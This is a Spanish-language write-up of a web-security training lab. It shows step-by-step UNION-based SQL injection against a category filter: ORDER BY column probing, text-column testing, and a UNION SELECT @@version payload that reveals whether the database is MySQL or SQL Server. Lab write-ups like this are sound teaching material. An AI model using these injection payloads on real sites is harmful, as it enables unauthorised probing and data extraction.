



# 💉 Identificación de versión y motor de base de datos (MySQL y MSSQL)

## 📄 Descripción del laboratorio

Este laboratorio contiene una vulnerabilidad de **inyección SQL** en el filtro de categoría de productos. La aplicación devuelve los resultados de la consulta directamente en la respuesta, lo que permite utilizar un **ataque UNION SELECT** para inyectar consultas adicionales.

El objetivo es identificar el **motor de base de datos** utilizado por la aplicación y mostrar su **cadena de versión**. En este laboratorio el motor será **MySQL o Microsoft SQL Server**.


## 📚 Teoría

### 📌 Identificación del motor de base de datos

Una de las primeras tareas durante la explotación de una SQL Injection es identificar el **motor de base de datos** que utiliza la aplicación. Esto es importante porque cada motor tiene:

* Sintaxis distinta.
* Funciones específicas.
* Tablas internas diferentes.

En **MySQL** y **Microsoft SQL Server** existe una variable global muy útil:

```
@@version
```

Esta variable devuelve una cadena con información sobre el motor de base de datos.

Ejemplos de información que puede devolver:

* En **MySQL**: versión del servidor, distribución y sistema operativo.
* En **SQL Server**: edición del motor, versión y número de build.

El procedimiento habitual en un ataque UNION para obtener esta información es:

1. Determinar el número de columnas de la consulta original.
2. Identificar qué columnas aceptan datos de tipo texto.
3. Insertar `@@version` en una columna visible.
4. Mostrar la versión directamente en la respuesta de la aplicación.


## 📝 Práctica

### 1️⃣ Determinar el número de columnas

Interceptamos la petición del filtro de categorías y la enviamos a **Burp Repeater**.

Probamos con `ORDER BY` para determinar cuántas columnas devuelve la consulta:

```
/filter?category=' ORDER BY 1--
/filter?category=' ORDER BY 2--
/filter?category=' ORDER BY 3--
```

Resultados:

```
ORDER BY 1 → funciona
ORDER BY 2 → funciona
ORDER BY 3 → error
```

Conclusión: la consulta original devuelve **2 columnas**.

<br>


### 2️⃣ Identificar columnas compatibles con texto

Probamos primero un UNION con valores nulos:

```
/filter?category=' UNION SELECT NULL,NULL--
```

Resultado:

Se produce un error, lo que indica que puede haber incompatibilidad de tipos o que las columnas esperan datos específicos.

Probamos ahora con cadenas de texto:

```
/filter?category=' UNION SELECT 'test1','test2'--
```

<br>

Resultado:

La respuesta muestra una fila adicional con los valores:

```
test1
test2
```

Conclusión:

* La consulta tiene **2 columnas**.
* Ambas columnas aceptan **datos de tipo texto**.


### 3️⃣ Extraer la versión del motor

Ahora utilizamos la variable del sistema `@@version` para obtener la información del motor.

Payload utilizado:

```
/filter?category=' UNION SELECT NULL,@@version--
```

Esto inserta la cadena de versión en la segunda columna visible de la respuesta.




### 4️⃣ Resultado

La respuesta de la aplicación muestra una cadena similar a:

```
MySQL 5.7.36-0ubuntu0.18.04.1
```

o

```
Microsoft SQL Server 2019 (RTM-CU18)
```

Esto confirma el motor de base de datos utilizado por la aplicación y su versión.

El laboratorio detecta que la cadena de versión se ha mostrado correctamente y se marca como completado.
